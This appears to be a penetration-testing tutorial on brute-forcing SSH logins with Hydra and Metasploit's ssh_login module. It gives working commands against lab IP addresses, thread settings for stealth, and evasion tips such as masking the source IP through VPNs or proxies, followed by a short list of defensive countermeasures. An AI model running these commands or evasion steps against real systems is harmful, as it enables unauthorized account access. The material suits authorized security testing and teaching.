# Bruteforce Attacks Guide

##  Introduction
Bruteforce attacks involve systematically trying multiple usernames and passwords to gain access to a target system. This technique is useful for **testing password strength**, **identifying weak/default credentials**, and **evaluating blue team detection capabilities**.

**Warning:** Bruteforce attacks against SSH are **loud** and can be easily detected by defensive teams.

---

##  Bruteforcing SSH with Hydra
Hydra is a **fast and flexible password brute-force tool** that supports multiple protocols, including SSH.

### **Basic SSH Bruteforce Attack**
```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.13.143:22 -t 4 -V
```

### **Breakdown of the Command:**
- **`hydra`** → Launches the Hydra tool.
- **`-l root`** → Specifies the username (lowercase `-l` means single user).
- **`-P /usr/share/wordlists/metasploit/unix_passwords.txt`** → Uses a wordlist to try multiple passwords.
- **`ssh://192.168.13.143:22`** → Defines the target SSH service and port.
- **`-t 4`** → Uses **4 parallel attack threads** (lower numbers = stealthier, higher = noisier but faster).
- **`-V`** → Enables verbose mode (shows each attempt in real time).

### **User Bruteforcing**
If we want to test **multiple usernames**, we use an uppercase `-L`:
```bash
hydra -L users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.13.143:22 -t 4 -V
```
- **`-L users.txt`** → Uses a **list of usernames** instead of a single one.

---

##  Bruteforcing SSH with Metasploit
Metasploit has a built-in SSH brute-force module for automated attacks.

### **1️ Launch MSFConsole**
```bash
msfconsole
```

### **2️ Find the SSH Bruteforce Module**
```bash
search ssh
```
Look for:
```bash
auxiliary/scanner/ssh/ssh_login
```

### **3️ Load the SSH Login Module**
```bash
use auxiliary/scanner/ssh/ssh_login
```

### **4️ Set Required Options**
```bash
options
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set rhosts 192.168.57.137
```
- **`set username root`** → Specifies the user.
- **`set pass_file`** → Defines the password wordlist.
- **`set rhosts`** → Specifies the target IP.

### **5️ Adjust Settings for Speed & Visibility**
```bash
set threads 10
```
- **Low threads (1-5)** → **Stealthy but slow**.
- **Medium threads (5-10)** → **Balanced attack speed**.
- **High threads (10-20)** → **Fast but easily detected**.

```bash
set verbose true
```
- **Shows real-time progress** in the terminal.

### **6️ Run the Attack**
```bash
run
```
Metasploit will start attempting logins. If successful, it will display **valid credentials**.

---

##  Additional Considerations
### **Detection & Evasion Tips:**
- **Reduce threads (`-t 1` or `-t 2`)** to slow down attacks and avoid detection.
- **Use VPNs or proxies** to mask your IP.
- **Try different ports** (if SSH is running on a non-standard port, e.g., `2222`).
- **Monitor logs (`/var/log/auth.log`)** to see how attacks are logged.

### **Blue Team Countermeasures:**
- **Fail2Ban**: Blocks IPs after multiple failed login attempts.
- **SSH Key Authentication**: Disables password-based logins.
- **Rate Limiting**: Restricts SSH login attempts.
- **Moving SSH to a non-standard port** (e.g., `2222`) reduces automated attacks.

---

##  Conclusion
Bruteforce attacks are **noisy** and should only be used for **testing password security** in ethical hacking engagements. By leveraging **Hydra and Metasploit**, security professionals can assess the **strength of credentials** and identify **vulnerable SSH services**.